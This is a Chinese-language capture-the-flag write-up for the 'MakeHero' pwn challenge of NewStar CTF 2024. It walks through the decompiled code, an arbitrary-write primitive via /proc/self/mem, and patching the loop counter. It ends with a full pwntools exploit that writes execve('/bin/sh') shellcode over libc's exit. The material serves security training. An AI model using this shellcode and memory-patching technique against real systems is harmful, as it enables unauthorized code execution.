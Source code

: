 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# MakeHero

## 逆向分析

固定步骤，拖入IDA分析

```c
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  unsigned __int8 v4; // [rsp+3h] [rbp-8Dh] BYREF
  int v5; // [rsp+4h] [rbp-8Ch]
  unsigned __int64 v6; // [rsp+8h] [rbp-88h] BYREF
  char v7[120]; // [rsp+10h] [rbp-80h] BYREF
  unsigned __int64 v8; // [rsp+88h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  sub_1430(a1, a2, a3);
  v5 = 2;
  puts("Welcome to NewStarCTF week4!");
  puts(aEek4);
  printf(asc_20F8);
  __isoc99_scanf("%100s", v7);
  printf(aS, v7);
  puts(asc_2158);
  while ( 1 )
  {
    if ( !v5-- )
    {
      puts(asc_2270);
      sleep(3u);
      printf(asc_22B1, v7);
      exit(0);
    }
    printf(asc_217F);
    puts(asc_2198);
    if ( (unsigned int)__isoc99_scanf("%lx %hhx", &v6, &v4) != 2 )
    {
      puts(asc_2208);
      puts(asc_2233);
      exit(-1);
    }
    if ( v5 == 1 )
    {
      if ( v6 < qword_4060 || v6 >= qword_4068 )
        goto LABEL_7;
LABEL_11:
      sub_1369(v6, v4);
    }
    else
    {
      if ( v6 >= qword_4050 && v6 < qword_4058 )
        goto LABEL_11;
LABEL_7:
      puts(aOhNo);
    }
  }
}
```

```c
int __fastcall sub_1369(__off_t a1, char a2)
{
  char buf[4]; // [rsp+4h] [rbp-1Ch] BYREF
  __off_t offset; // [rsp+8h] [rbp-18h]
  int fd; // [rsp+1Ch] [rbp-4h]

  offset = a1;
  buf[0] = a2;
  fd = open("/proc/self/mem", 2);
  if ( fd == -1 )
  {
    perror("open /proc/self/mem");
    exit(1);
  }
  if ( lseek(fd, offset, 0) == -1 )
  {
    perror("lseek");
    close(fd);
    exit(1);
  }
  if ( write(fd, buf, 1uLL) != 1 )
    perror("write");
  return close(fd);
}
```

可知，程序实现了通过/proc/self/mem实现了任意地址的改写

:::tip
程序是通过open("/proc/self/mem")的方式实现改写，因此无视各地址段的读写权限
:::

![读入](/assets/images/wp/2024/week4/makehero_1.png)

程序读入两个数字，%lx是地址，%hhx是要改的字节

![限制输入范围](/assets/images/wp/2024/week4/makehero_2.png)

其中，程序对v6的取值做了限制

在sub_1430函数中，对这几个全局变量做了初始化

![全局变量初始化](/assets/images/wp/2024/week4/makehero_3.png)

结合gdb动调时的地址分布，我们可知，qword_4060和qword_4068是程序elf的地址，qword_4050和qword_4058是程序libc的地址

## Pwn it

程序能任意写两次，第一次能改写elf，第二次能改写libc，仅有的两次机会是不足以让我们拿到flag的，我们需要通过仅有的两次机会来让我们获得“无限次”的机会

分析发现，程序的退出点在这里

![程序的退出点](/assets/images/wp/2024/week4/makehero_4.png)

因此我们能否通过修改跳转条件或是其他，来让程序不执行退出呢

![修改跳转条件](/assets/images/wp/2024/week4/makehero_5.png)

我们或许可以通过改jnz为其他条件跳转来实现一直执行，也可以让v5--变为v5++来实现“无限次”任意写

![修改v5](/assets/images/wp/2024/week4/makehero_6.png)

在这，我选择修改--为++，就是将8D 50 FF改为8D 50 01

![修改v5](/assets/images/wp/2024/week4/makehero_7.png)

改完后，我们能一直任意写，剩下的就很多种解法了

我选择将exit处代码改为shellcode，getshell

```python
#!/usr/bin/env python3
from pwn import *

context(log_level='debug', arch='amd64', os='linux')
context.terminal = ["tmux", "splitw", "-h"]
uu64 = lambda x: u64(x.ljust(8, b'\x00'))
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
r = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)

p = process('./MakeHero')
libc = ELF("./libc.so.6")

def u8_ex(data) -> int:
    assert isinstance(data, (str, bytes)), "wrong data type!"
    length = len(data)
    assert length <= 1, "len(data) > 1!"
    if isinstance(data, str):
        data = data.encode('latin-1')
    data = data.ljust(1, b"\x00")
    return unpack(data, 8)

def write_mem(addr, byte):
    if isinstance(byte, bytes):
        sla(b'\x89\xef\xbc\x81', hex(addr) + ' ' + hex(u8_ex(byte)))
    elif isinstance(byte, int):
        sla(b'\x89\xef\xbc\x81', hex(addr) + ' ' + hex(byte))

def write_code(addr, code):
    for i in range(len(code)):
        write_mem(addr + i, code[i])

ru(b'** ')
code_base = int(p.recvuntil(b' -', drop=True), 16)

ru(b'## ')
libc_base = int(p.recvuntil(b' -', drop=True), 16)

sl(b'inkey')

write_mem(code_base + 0x1877, 0x1)
write_mem(libc_base + libc.sym.exit + 4, b'\x90')
write_mem(code_base + 0x1877, 0x1)
write_code(libc_base + libc.sym.exit + 5, b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05")
sl(b'bye')

p.interactive()
```

这题既能改elf，也能改libc，应该会有很多不一样的解法吧（
